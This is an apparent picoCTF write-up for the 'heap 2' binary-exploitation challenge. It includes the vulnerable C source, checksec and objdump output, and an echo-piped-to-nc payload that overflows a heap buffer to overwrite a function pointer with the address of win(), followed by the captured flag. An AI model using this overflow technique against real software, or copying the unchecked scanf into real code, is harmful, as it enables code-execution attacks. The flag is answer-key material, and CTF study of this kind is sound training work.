# heap 2:Binary Exploitation:200pts
Can you handle function pointers?  
Download the binary [here](chall).  
Download the source [here](chall.c).  
Connect with the challenge instance here:  
`nc mimas.picoctf.net 53382`  

Hints  
1  
Are you doing the right endianness?  

# Solution
The binary, source and destination are passed. Looking at the source, it was as follows.  
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64

int num_allocs;
char *x;
char *input_data;

void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}

void check_win() { ((void (*)())*(int*)x)(); }

void print_menu() {
    printf("\n1. Print Heap\n2. Write to buffer\n3. Print x\n4. Print Flag\n5. "
           "Exit\n\nEnter your choice: ");
    fflush(stdout);
}

void init() {

    printf("\nI have a function, I sometimes like to call it, maybe you should change it\n");
    fflush(stdout);

    input_data = malloc(5);
    strncpy(input_data, "pico", 5);
    x = malloc(5);
    strncpy(x, "bico", 5);
}

void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

void print_heap() {
    printf("[*]   Address   ->   Value   \n");
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", x, x);
    fflush(stdout);
}

int main(void) {

    // Setup
    init();

    int choice;

    while (1) {
        print_menu();
	if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print x
            printf("\n\nx = %s\n\n", x);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```
[heap 0] (.. /heap_0) and [heap 1](.. /heap_1), but 'check_win' is called in the Print Flag, and 'x' is called.  
The 'x' is initialized with the string 'bico', and it looks like we need to set 'win' on the overflow.
```bash
$ checksec --file=./chall
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   51 Symbols        No    0               2               ./chall
$ objdump -D ./chall | grep '<win>'
objdump: Warning: Unrecognized form: 0x22
objdump: Warning: Unrecognized form: 0x22
objdump: Warning: Unrecognized form: 0x23
00000000004011a0 <win>:
```
If PIE is invalid and you can see that the address of 'win' is '0x4011a0', you can skip there. Adjust the overflow as follows and skip to 'win'.
```bash
$ echo -e '2\nSATOKISATOKISATOKISATOKISATOKISA\xa0\x11\x40\x00\n4' | nc mimas.picoctf.net 53382

I have a function, I sometimes like to call it, maybe you should change it

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: Data for buffer:
1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: picoCTF{and_down_the_road_we_go_ba77314d}
```
The 'x' was rewritten in Write to buffer, and the flag was displayed in Print Flag.  

## picoCTF{and_down_the_road_we_go_ba77314d}